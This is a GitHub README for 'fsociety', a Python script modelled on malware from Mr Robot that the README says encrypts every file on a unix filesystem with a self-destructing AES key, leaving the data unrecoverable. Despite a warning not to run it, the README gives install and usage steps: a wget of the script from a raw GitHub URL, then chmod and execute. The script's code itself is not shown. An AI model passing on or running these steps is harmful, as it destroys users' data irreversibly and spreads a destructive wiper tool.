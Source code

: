 # fsociety
__WARNING: do not actually execute this. You will not be able to recover the files.__

This is intended to encrypt every bit of data in a unix filesystem using 256-bit AES with 
a self-destructing, randomly generated key.

The fuxsocy.py script is based on Darlene's malware [shown](https://gifyu.com/images/ezgif.com-video-to-giff0eda.gif) in Mr Robot

## S2E1:
![alt-text](https://i.imgur.com/6RIogYa.jpg)

### Dependencies:

* python
* pycrypto

```shell
sudo apt install python python-pip
```
```shell
sudo pip install pycrypto
```

### Usage:

```shell
wget https://raw.githubusercontent.com/joekendal/fsociety/master/fuxsocy.py
```
```shell
sudo chmod +x fuxsocy.py
```
```shell
./fuxsocy.py
```
